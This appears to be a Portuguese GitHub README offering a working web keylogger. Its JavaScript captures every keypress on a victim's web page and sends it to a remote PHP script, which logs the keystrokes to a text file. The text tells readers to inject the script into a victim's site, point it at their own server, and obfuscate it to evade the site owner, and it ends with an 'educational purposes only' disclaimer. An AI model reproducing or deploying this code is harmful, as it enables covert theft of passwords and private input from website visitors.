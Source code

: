 O QUE PODEMOS FAZER COM UM KEYLOGGER?
Keylogger é um tipo de software que, uma vez ativo em um sistema, pode registrar cada pressionamento de tecla feito pelo sistema. Todo o pressionamento de tecla gravado é salvo em um arquivo de log. Um keylogger pode gravar uma mensagem, e-mail e capturar qualquer tipo de informação que você digitar a qualquer momento usando o teclado.

### Criar arquivo JS Keylogger - keylogger.js

```
if((window.jQuery))
{
 console.log("jQuery Found");
}
else
{
 console.log("jQuery Not Found");
 var script = document.createElement('script');
 script.src = 'https://code.jquery.com/jquery-3.3.1.min.js';
 document.body.appendChild(script);
}

function c(d)
{
 jQuery.ajax(
 {
 dataType: "jsonp",
 type:"GET",
 url: "https://example.com/keylogger.php",
 jsonp:"keypressed",
 data:
 {
 altnKey:d.altKey?1:0,
 ctrlKey:d.ctrlKey?1:0,
 userKey:d.key,
 targKey:d.target.id,
 userURI:d.target.baseURI
 },
 async:false,
 success: function(data)
 {
 console.log(data);
 },
 error:function(xhr, ajaxOptions, thrownError)
 {
 console.log("Error");
 }
 });
}

window.onload = function()
{
 window.addEventListener("keydown", function(e)
 {
 c(e);
 });
}  
```
O código acima em JavaScript pode ser injetado diretamente no site da vítima ou pode ser hospedado remotamente. O objetivo deste código é pegar o pressionamento de tecla do usuário e enviá-lo para um servidor remoto. Certifique-se de substituir " https://example.com/keylogger.php " pelo URL real do seu arquivo PHP.

Para economizar tempo vamos fazer isso com jQuery. Portanto, para evitar erros, a primeira coisa que fazemos é garantir que o jQuery esteja presente na página da vítima e carregá-lo caso não o encontremos.

Declaramos uma função " c ", onde o parâmetro " d " será o pressionamento da tecla. Esta função terá uma chamada Ajax para o arquivo PHP que recebe as teclas.

#### Criar arquivo PHP Keylogger - keylogger.php

```
header($_SERVER["SERVER_PROTOCOL"]." 404 Not Found", true, 404);
header('Access-Control-Allow-Methods: GET, REQUEST, OPTIONS');
header('Access-Control-Allow-Credentials: true');
header('Access-Control-Allow-Origin: *');
header('Access-Control-Allow-Headers: Content-Type, *');

$file = 'data.txt';
if(!file_exists($file))
{
 $fh = fopen($file, 'w');
}

function f($str)
{
 return trim(preg_replace("(\\\)","",htmlentities(strip_tags($str),ENT_QUOTES,'UTF-8')));
}

$altnKey=(int)$_GET['altnKey'];
$ctrlKey=(int)$_GET['ctrlKey'];
$userKey=f($_GET['userKey']);
$targKey=f($_GET['targKey']);
$userURI=f($_GET['URI']);

$string = $altnKey."|".$ctrlKey."|".$userKey."|".$targKey."|".$userURI." ";
file_put_contents($file, $string, FILE_APPEND);
```

A parte do servidor está em PHP. Não há nada a explicar sobre o código acima, o objetivo do arquivo PHP é receber o valor do pressionamento de tecla transferido em Ajax pelo JavaScript e armazená-lo em um arquivo de texto simples. O "keylogger.php" deve ser hospedado em um servidor remoto e a URL completa do arquivo deve ser especificada no arquivo "keylogger.js".

Você pode adaptar o código acima para atender às suas necessidades exatas. Por exemplo, talvez você queira salvar os resultados diretamente em um banco de dados ou enviá-los para um endereço de e-mail.
COMO FUNCIONA ?
Um keylogger simples baseado na web. Nesta documentação, você saberá como funciona o keylogger, tipo de programação pela qual registramos e monitoramos cada pressionamento de tecla digitado pelo usuário em um site.

#### OBFUSCAÇÃO DE JAVASCRIPT
Podemos ir mais longe, usando uma ferramenta on-line de ofuscação para ocultar nosso código JavaScript e evitar que o proprietário do site detecte o keylogger à primeira vista.

Sinta-se livre para contribuir para corrigir quaisquer problemas, ou para apresentar um problema!

Por favor, note, este repo é apenas para fins educacionais. Nenhum contribuinte, maior ou menor, é culpado por quaisquer ações feitas por este programa.
